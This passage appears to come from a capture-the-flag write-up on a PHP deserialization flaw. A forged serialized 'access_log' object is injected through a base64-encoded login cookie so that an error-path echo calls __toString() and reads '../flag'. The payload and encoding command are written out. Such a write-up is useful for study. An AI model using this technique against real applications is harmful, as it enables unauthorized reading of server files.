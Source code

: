```php
    }
    catch (Error $e) {
        die("Deserialization error. " . $perm);
    }
}
?>
```

This file contained the logic that deserializes the `login` cookie and attempts to call `is_guest()` and `is_admin()` on the resulting object. If the object does not implement these methods, an error is thrown, which is caught and printed. During this process, the value of `$perm` is echoed, which in the case of a malicious object can trigger its `__toString()` method.

---

##  Vulnerability Analysis

From the deserialization logic in `cookie.php`, I realized that I could craft a fake serialized object and inject it via the `login` cookie. If this object does not implement `is_guest()` or `is_admin()`, it will raise an error and the catch block will print the object using `echo`.

Since the `access_log` class defines a `__toString()` method that returns the contents of a file, I can abuse this by setting the `log_file` property to `../flag`.

---

##  Exploit Development

### Step 1: Craft the payload

PHP object serialization syntax is as follows:

```
O:<length>:"<classname>":<property_count>:{<property_definitions>}
```

So the payload looks like this:

```php
O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
```

This object, when deserialized, creates an instance of `access_log` with `log_file` set to `../flag`.

### Step 2: Encode the payload

Using a tool like CyberChef or Python, I performed base64 encoding:

```bash
echo 'O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}' | base64
```

Output:

```
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```

